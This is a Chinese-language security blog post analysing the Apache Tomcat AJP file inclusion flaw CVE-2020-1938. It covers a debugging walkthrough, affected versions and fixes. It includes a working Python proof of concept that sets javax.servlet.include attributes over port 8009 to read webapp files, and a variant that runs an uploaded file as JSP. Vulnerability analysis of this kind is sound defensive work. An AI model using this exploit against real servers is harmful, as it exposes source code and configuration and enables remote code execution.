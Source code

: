 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[blog.riskivy.com\](https://blog.riskivy.com/apache-tomcat-ajp%e5%8d%8f%e8%ae%ae%e6%96%87%e4%bb%b6%e5%8c%85%e5%90%ab%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)

Apache Tomcat AJP 协议文件包含漏洞分析
----------------------------

背景
--

Tomcat 是由 Apache 软件基金会属下 Jakarta 项目开发的 Servlet 容器，按照 Sun Microsystems 提供的技术规范，实现了对 Servlet 和 JavaServer Page（JSP）的支持。由于 Tomcat 本身也内含了 HTTP 服务器，因此也可以视作单独的 Web 服务器。2020 年 1 月 6 日，国家信息安全漏洞共享平台（CNVD）收录了 Apache Tomcat 文件包含漏洞（CNVD-2020-10487，对应 CVE-2020-1938）。攻击者可利用该漏洞读取或包含 Tomcat 上所有 webapp 目录下的任意文件，如：webapp 配置文件或源代码等，若服务器端同时存在文件上传功能，攻击者可进一步实现远程代码的执行。

AJP 简介
------

AJP 的全称是 Apache JServ Protocol，支持 AJP 协议的 Web 容器包括 Apache Tomcat，JBoss AS / WildFly 和 GlassFish  
AJP 是一个二进制协议，通常在存在负载平衡的部署中使用 AJP，一般位于 Web 服务器的后面，使用路由机制将会话重定向到正确的应用服务器，其中每个应用服务器实例都获得一个名称。在这种情况下，Web 服务器充当应用程序服务器的反向代理。最后，AJP 支持请求属性，当在反向代理中使用特定于环境的设置填充请求属性时，该属性可提供反向代理与应用程序服务器之间的安全通信。

漏洞分析
----

### 运行 Tomcat

打开下面的 URL 下载 Tomcat 运行程序  
https://archive.apache.org/dist/tomcat/tomcat-7/v7.0.96/bin/apache-tomcat-7.0.96.zip  
并进入`bin`目录执行 `catalina.bat jpda start` 采用调试模式启动 `Tomcat` 服务器

![](https://blog.riskivy.com/wp-content/uploads/2020/02/923909c034dff008205373da86b765ae.png)

### 漏洞 PoC

下载 https://github.com/hypn0s/AJPy ，并导入 Tomcat 类

```
t = Tomcat("127.0.0.1", 8009)
attributes = \[
{'name':'req\_attribute','value':\['javax.servlet.include.request\_uri','/'\]},
    {'name':'req\_attribute','value':\['javax.servlet.include.path\_info','/index.jsp'\]},
    {'name':'req\_attribute','value':\['javax.servlet.include.servlet\_path','/'\]},
\]

r = t.perform\_request("/fdsdf", attributes=attributes)
for x in r\[1\]:
   print(x.data)


```

可以看到读取到了 index.jsp 的源码

![](https://blog.riskivy.com/wp-content/uploads/2020/02/c880bc2129a581ad10b49d85bdec87f6.png)

如果要执行 webapp 下的一个非 jsp 文件，将 perform\_request 改成下面即可

```
r = t.perform\_request("/fdsdf.jsp", attributes=attributes)


```

### 调试分析

在下面的位置打断点，此时 request 才刚开始处理  
tomcat-coyote.jar!/org/apache/coyote/ajp/AjpProcessor.class:40  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/669447ea22f54c9b09199f37ef44491a.png)

在 tomcat-coyote.jar!/org/apache/coyote/ajp/AbstractAjpProcessor.class:532 中可以看到设置了当前 request 的属性，其中字段名为在 PoC 传入的 `javax.servlet.include.*`字段  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/983fa480f841b098a8a3c69b35e1bf20.png)

通过 CoyoteAdapter 的 postParseRequest 函数进入到 Servlet 的处理流程  
catalina.jar!/org/apache/catalina/connector/CoyoteAdapter.class:328  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/bbe1dec7aa01c0efef5bc3964158a5c6.png)

### 任意文件读取

根据 Tomcat 默认路由规则，/fdsdf 将会匹配到 DefaultServlet  
org.apache.catalina.servlets.DefaultServlet#serveResource  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/b68e301d8c14c06005ea2136ea9fb17b.png)

catalina.jar!/org/apache/catalina/servlets/DefaultServlet.class:171  
进入到 serveResource，将会调用 getRelativePath 从属性中获取真正的路径  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/1c9050740ff2317e152326fdd8d7527d.png)

通过自定义下面三个属性可以达到 WEB 目录下任意文件读取的作用。

```
javax.servlet.include.request\_uri
javax.servlet.include.path\_info
javax.servlet.include.servlet\_path


```

### 任意文件后缀代码执行

根据 Tomcat 默认路由规则，/fdsdf.jsp 将会匹配到 JspServlet  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/65e9366057cc823b49ec43b325bb38d1.png)  
将目标 1.txt 当成 jsp 执行  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/1d7135efce673279c43b99ed4365e987.png)

### 为什么不能读取 WEB 目录外的文件

以进入到 DefaultServlet 为例，进入到函数 serveResource 函数，最终会调用  
catalina.jar!/org/apache/naming/resources/FileDirContext.class:302 中的 Validate 函数，这里面包含多次验证，无法绕过 WEB 目录  
![](https://blog.riskivy.com/wp-content/uploads/2020/02/78677df441e7ccd386756ec8ea712c48.png)

影响版本
----

Apache Tomcat 6  
Apache Tomcat 7 < 7.0.100  
Apache Tomcat 8 < 8.5.51  
Apache Tomcat 9 < 9.0.31

修复建议
----

### 1\. 更新到安全版本

Apache Tomcat 7.0.100  
Apache Tomcat 8.5.51  
Apache Tomcat 9.0.31

### 2\. 关闭 AJP 服务

（1）编辑 Tomcat 配置文件 conf/server.xml，找到如下行

```
<Connector port="8009"protocol="AJP/1.3" redirectPort="8443" />


```

（2）将此行进行注释掉

```
<!--<Connectorport="8009" protocol="AJP/1.3"redirectPort="8443" />-->


```

（3）保存配置文件，重新启动 Tomcat

参考
--

https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487  
http://tomcat.apache.org/